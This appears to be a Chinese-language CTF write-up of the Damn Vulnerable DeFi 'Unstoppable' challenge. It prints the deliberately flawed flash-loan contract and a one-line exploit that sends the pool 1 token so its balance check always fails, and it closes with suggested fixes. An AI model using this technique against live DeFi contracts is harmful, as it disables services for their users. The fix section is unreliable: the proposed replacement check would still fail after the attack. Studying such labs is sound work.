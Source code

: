[Damn Vulnerable DeFi](https://damnvulnerabledefi.xyz/) 是一個模擬駭客攻擊的遊戲，通過練習可以增加我們對於合約弱點的敏銳度、學習站在審計員的角度審查合約的漏洞。

![https://i.imgur.com/YmWEAHb.png](https://i.imgur.com/YmWEAHb.png)

# 🪙 Challenge #1 - Unstoppable 勢不可擋

裡面有一個借貸池用有幾百萬顆 DVT tokens，而且免費提供閃電貸的服務。我們一開始有 **100 顆 DVT** 可以用，目標是要想辦法攻擊借貸池，讓這個池子**沒辦法再提供 [****Flash Loan**** 閃電貸](https://www.so/Flash-Loan-aaf6168be4bc4eca84d805e99730223c) 的服務**。

- [See the contracts](https://github.com/tinchoabbate/damn-vulnerable-defi/tree/v2.2.0/contracts/unstoppable)
- [Complete the challenge](https://github.com/tinchoabbate/damn-vulnerable-defi/blob/v2.2.0/test/unstoppable/unstoppable.challenge.js)

## 思考切入點

- 有什麼資源可以用？ 100 顆 DVT
- 什麼樣的狀況下 `UnstoppableLender` 會沒有辦法提供服務？flashLoan 有什麼條件？我們要可以改變他哪些條件可以讓 [flashLoan](https://www.so/Flash-Loan-aaf6168be4bc4eca84d805e99730223c) revert？

## 合約研讀：尋找攻擊點

- 仔細看我們會發現總共有以下幾的地方有可能 revert，一一查看就會發現只有 3️⃣ 讓 damnValuableToken 的量跟 poolBalance 不一致，是最簡單的攻擊點。我們可以透過主動轉錢給 UnstoppableLender 讓他的實際擁有量跟紀錄量不一樣。

```solidity
function flashLoan(uint256 borrowAmount) external nonReentrant {
                // 1️⃣：參數，無法控制
        require(borrowAmount > 0, "Must borrow at least one token");

        uint256 balanceBefore = damnValuableToken.balanceOf(address(this));
                // 2️⃣：可以想辦法把 damnValuableToken 的量少到無法借出，但在這個案例中我們沒辦法做到
        require(balanceBefore >= borrowAmount, "Not enough tokens in pool");

                // 3️⃣ 😈 讓 damnValuableToken 的量跟 poolBalance 不一致，💡確實可以成為攻擊點。
        // Ensured by the protocol via the `depositTokens` function
        assert(poolBalance == balanceBefore);

        damnValuableToken.transfer(msg.sender, borrowAmount);

        IReceiver(msg.sender).receiveTokens(
            address(damnValuableToken),
            borrowAmount
        );

        uint256 balanceAfter = damnValuableToken.balanceOf(address(this));
                // 4️⃣ 使用者還錢與否無法控制
        require(
            balanceAfter >= balanceBefore,
            "Flash loan hasn't been paid back"
        );
    }
```

## 實現攻擊

### 攻擊點

- 轉錢操控 Balance， 主動轉錢給 UnstoppableLender 讓他的實際擁有量跟紀錄量不一樣。這樣 `assert(poolBalance == balanceBefore)` 永遠過不了。
- `yarn run unstoppable` 之後就可以發現通過拉 ✨

```solidity
it('Exploit', async function () {
        // 主動轉錢讓 poolBalance !== balanceBefore
        await this.token.transfer(this.pool.address, 1);
    });
```

^6d4bd0

```solidity
[Challenge] Unstoppable
    ✓ Exploit

  1 passing (1s)

✨  Done in 3.78s.
```

## 🔧 弱點總結 & 修改方式

這題基本上是因為錯誤 [****Flash Loan**** 閃電貸](https://www.so/Flash-Loan-aaf6168be4bc4eca84d805e99730223c)  依賴外部可控的條件判斷邏輯，導致無法提供服務，屬於邏輯錯誤的 [阻擋攻擊](https://www.so/0e024713109c42bf899a9815511a0a7c) 、 [操弄依變因攻擊](https://www.so/2a0407b1936b4540a1b45c930e346336)  類型，因為有一行 `assert(poolBalance == balanceBefore)`只要有人多轉了一筆錢造成`poolBalance != balanceBefore` flashloan 的服務就直接報廢掉，而且因為沒有地方可以取錢出來，所以此錯誤也不能被修正。

弱點： 1. 可操弄邏輯判斷依變因 2. 未限制轉錢對象

攻擊方法： 1. 轉 1 wei 到合約當中 讓 `assert(poolBalance == balanceBefore)` 永遠過不了

改進方法： 1. 可以把 `assert(poolBalance == balanceBefore);` ，變成 `assert(poolBalance >= balanceBefore);` 2. 限定只有 owner 才能轉錢進合約。

## 完整合約

### UnstoppableLender 完整合約

```solidity
// SPDX-License-Identifier: MIT

pragma solidity ^0.8.0;

import "@openzeppelin/contracts/token/ERC20/IERC20.sol";
import "@openzeppelin/contracts/security/ReentrancyGuard.sol";

interface IReceiver {
    function receiveTokens(address tokenAddress, uint256 amount) external;
}

/**
 * @title UnstoppableLender
 * @author Damn Vulnerable DeFi (<https://damnvulnerabledefi.xyz>)
 */
contract UnstoppableLender is ReentrancyGuard {
    IERC20 public immutable damnValuableToken;
    uint256 public poolBalance;

    constructor(address tokenAddress) {
        require(tokenAddress != address(0), "Token address cannot be zero");
        damnValuableToken = IERC20(tokenAddress);
    }

    function depositTokens(uint256 amount) external nonReentrant {
        require(amount > 0, "Must deposit at least one token");
        // Transfer token from sender. Sender must have first approved them.
        damnValuableToken.transferFrom(msg.sender, address(this), amount);
        poolBalance = poolBalance + amount;
    }

    function flashLoan(uint256 borrowAmount) external nonReentrant {
        require(borrowAmount > 0, "Must borrow at least one token");

        uint256 balanceBefore = damnValuableToken.balanceOf(address(this));
        require(balanceBefore >= borrowAmount, "Not enough tokens in pool");

        // Ensured by the protocol via the `depositTokens` function
        assert(poolBalance == balanceBefore); // 💡 攻擊點

        damnValuableToken.transfer(msg.sender, borrowAmount);

        IReceiver(msg.sender).receiveTokens(
            address(damnValuableToken),
            borrowAmount
        );

        uint256 balanceAfter = damnValuableToken.balanceOf(address(this));
        require(
            balanceAfter >= balanceBefore,
            "Flash loan hasn't been paid back"
        );
    }
}
```

### Test 解法完整合約

```jsx
const { ethers } = require('hardhat');
const { expect } = require('chai');

describe('[Challenge] Unstoppable', function () {
    let deployer, attacker, someUser;

    // Pool has 1M * 10**18 tokens
    const TOKENS_IN_POOL = ethers.utils.parseEther('1000000');
    const INITIAL_ATTACKER_TOKEN_BALANCE = ethers.utils.parseEther('100');

    before(async function () {
        /** SETUP SCENARIO - NO NEED TO CHANGE ANYTHING HERE */

        [deployer, attacker, someUser] = await ethers.getSigners();

        const DamnValuableTokenFactory = await ethers.getContractFactory('DamnValuableToken', deployer);
        const UnstoppableLenderFactory = await ethers.getContractFactory('UnstoppableLender', deployer);

        this.token = await DamnValuableTokenFactory.deploy();
        this.pool = await UnstoppableLenderFactory.deploy(this.token.address);

        await this.token.approve(this.pool.address, TOKENS_IN_POOL);
        await this.pool.depositTokens(TOKENS_IN_POOL);

        await this.token.transfer(attacker.address, INITIAL_ATTACKER_TOKEN_BALANCE);

        expect(
            await this.token.balanceOf(this.pool.address)
        ).to.equal(TOKENS_IN_POOL);

        expect(
            await this.token.balanceOf(attacker.address)
        ).to.equal(INITIAL_ATTACKER_TOKEN_BALANCE);

         // Show it's possible for someUser to take out a flash loan
         const ReceiverContractFactory = await ethers.getContractFactory('ReceiverUnstoppable', someUser);
         this.receiverContract = await ReceiverContractFactory.deploy(this.pool.address);
         await this.receiverContract.executeFlashLoan(10);
    });

    it('Exploit', async function () {
        /** CODE YOUR EXPLOIT HERE */
        await this.token.transfer(this.pool.address, 1);
    });

    after(async function () {
        /** SUCCESS CONDITIONS */

        // It is no longer possible to execute flash loans
        await expect(
            this.receiverContract.executeFlashLoan(10)
        ).to.be.reverted;
    });
});
```

## References

[Damn Vulnerable DeFi](https://damnvulnerabledefi.xyz/)
